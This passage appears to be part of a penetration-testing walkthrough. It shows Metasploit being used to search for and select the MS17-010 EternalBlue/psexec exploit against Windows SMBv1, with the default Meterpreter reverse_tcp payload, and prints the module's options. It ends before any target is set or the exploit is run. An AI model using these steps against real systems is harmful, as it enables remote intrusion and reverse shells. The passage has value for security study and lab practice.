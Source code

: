 ### MS017-010 (Using Metasploit)

```bash
 msf6 > search ms17-010
 Matching Modules
 #  Name                                           Disclosure Date  Rank     Check  Description
    ----                                           ---------------  ----     -----  -----------
 0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
 1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
 2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
 3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
 4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
 5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution 
```
[__MS17-010__](https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/) is also known as EternalBlue exploit by Microsoft, that affects only Windows Operating System which
uses the SMBv1 (Server Message Block version 1). SMBv1 is a network communication protocol which enable 
shared access to files, printers and ports. Later on, it is very risky of being targeted by ransomware and 
other attacks.

As all the exploits are mentioned above, I will choose the appropriate for Remote Code Execution, that is,
exploit/windows/smb/ms17_010_psexec (use 4).

```bash
 msf6 > use 4
 [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
 msf6 exploit(windows/smb/ms17_010_psexec) > show options
 Module options (exploit/windows/smb/ms17_010_psexec):
 Name                  Current Setting                                             Required  Description
 ----                  ---------------                                             --------  -----------
DBGTRACE              false                                                         yes       Show extra debug trace info
LEAKATTEMPTS          99                                                            yes       How many times to try to leak transaction
NAMEDPIPE                                                                           no        A named pipe that can be connected to (leave blank for auto)
NAMED_PIPES         /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
RHOSTS                                                                              yes       The target host(s)
RPORT                 445                                                           yes       The Target port (TCP)
SERVICE_DESCRIPTION                                                                 no        Service description 
SERVICE_DISPLAY_NAME                                                                no        The service display name
SERVICE_NAME                                                                        no        The service name
SHARE                 ADMIN$                                                        yes       The share to connect to
SMBDomain             .                                                             no        The Windows domain to use for authentication
SMBPass                                                                             no        The password for the specified username
```
